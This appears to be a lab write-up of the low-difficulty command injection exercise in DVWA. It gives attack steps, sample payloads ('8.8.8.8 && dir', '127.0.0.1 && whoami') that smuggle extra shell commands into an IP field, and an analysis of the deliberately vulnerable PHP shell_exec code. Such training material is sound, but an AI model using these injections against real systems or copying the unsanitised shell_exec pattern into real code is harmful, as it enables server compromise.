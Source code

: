 # Command Injection - Low 

## Attack Steps

1. **Open the DVWA Command Injection page**  
   Navigate to:
http://localhost/dvwa/vulnerabilities/exec
 
2. **Enter the payload** in the input field:  
```bash
8.8.8.8 && dir
```


3. Click the **Submit** button.

4. Observe the output You should see the ping results followed by the directory listing from the DVWA server, for example:

    ```bash 
    Volume in drive C has no label.
    Volume Serial Number is XXXX-XXXX

    Directory of C:\xampp\htdocs\DVWA\vulnerabilities\exec

    01/01/2025  10:00 AM    <DIR>          .
    01/01/2025  10:00 AM    <DIR>          ..
               0 File(s)              0 bytes
    ```

## Vulnerable Code Analysis

### File:
`C:\xampp\htdocs\DVWA\vulnerabilities\exec\source\low.php`

#### Key Vulnerability Points:

```php
 <?php

if( isset( $_POST[ 'submit' ] ) ) {

    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
    
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    } else { 
    
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    }  
}
?> 
```

### Explanation
- The code takes direct user input `$target = $_REQUEST['ip'];` and passes it straight into a shell command without any validation or sanitisation.  
- The value of `$target` is concatenated into the `ping` command string inside `shell_exec()`, e.g.:  
    ```php
    shell_exec('ping -c 3 ' . $target);
    ```  
- This can be exploited using a payload such as:  
    ```
    127.0.0.1 && whoami
    ```  
    - The command executed by the server becomes:  
      ```
      ping -c 3 127.0.0.1 && whoami
      ```  
    - After the ping runs, `whoami` will also execute, revealing the username of the process running PHP.  
- Causes:  
    - No input validation or sanitisation on `$target`, so arbitrary commands can be injected.  
    - Direct insertion of user input into a shell command allows attackers to append extra commands using operators like `&&`, `;`, or `|`.  This is OS dependant 
    - Not using safe functions like `escapeshellarg()` or input whitelisting means special characters are interpreted by the shell.  
